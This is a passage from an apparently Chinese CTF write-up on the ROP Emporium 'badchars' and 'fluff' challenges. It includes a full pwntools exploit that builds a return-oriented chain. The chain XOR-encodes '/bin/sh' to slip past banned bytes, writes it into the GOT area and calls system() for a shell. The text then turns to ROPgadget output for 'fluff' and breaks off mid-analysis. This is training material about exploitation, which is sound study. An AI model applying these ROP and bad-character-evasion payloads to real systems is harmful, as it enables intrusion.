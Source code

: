 第 1,2,5 行和前面一样，而第 3-4 行控制寄存器 `r14` 和 `r15` 的值，使得 `r14=2`（`r14b` 即 `r14` 的低 8 位），`r15` 存放我们刚刚写入的被异或的字符串地址，随后进行 8 次异或即可恢复出 `/bin/sh\x00` 来。

```python
from pwn import *

context(arch='amd64', os='linux', log_level='DEBUG')

p = process('./badchars')
elf = ELF('./badchars')

p.recvuntil('>')

bin_sh = 0x026a712d6c6b602d
got_start = 0x601000
pop_r12_r13_ret = 0x400b3b
mov_r13_r12_ret = 0x400b34

pop_r14_r15_ret = 0x400b40
xor_r15_r14b_ret = 0x400b30

pop_rdi_ret = 0x400b39

payload = flat(['a'*0x28, pop_r12_r13_ret, bin_sh, got_start, mov_r13_r12_ret])

for i in range(8):
    payload += flat([pop_r14_r15_ret, 2, got_start+i, xor_r15_r14b_ret])

payload += flat([pop_rdi_ret, got_start, elf.plt['system']])
p.sendline(payload)

p.interactive()
```

## fluff

本题减少了一些 gadget，我们不得不间接地通过寄存器写内存。注意这里用 ROPgadget 很难找到合适的 gadget，需要加个 `--depth` 参数。

```shell
$ ROPgadget --binary fluff --depth 20
```

在众多 gadget 中要找到有用的，我们的思路还是如何去写内存。按照之前经验，还是需要 `mov [reg], reg` 的语句，这里就有一个：

```
0x000000000040084e : mov qword ptr [r10], r11 ; pop r13 ; pop r12 ; xor byte ptr [r10], r12b ; ret
```

但是很不巧，没有 `pop r10; pop r11; ret` 这么好的 gadget 了，我们只能另辟蹊径去控制这两个寄存器。首先我们要把 GOT 表地址放进 `r10`。然而我们连 `xor r10, reg` 这样的语句都没有，非常难受（`xor [r10], reg` 是没有用的，因为无法改变 `r10` 本身）。

但是我们注意到，有这样一个 gadget：

```
0x0000000000400840 : xchg r11, r10 ; pop r15 ; mov r11d, 0x602050 ; ret
```
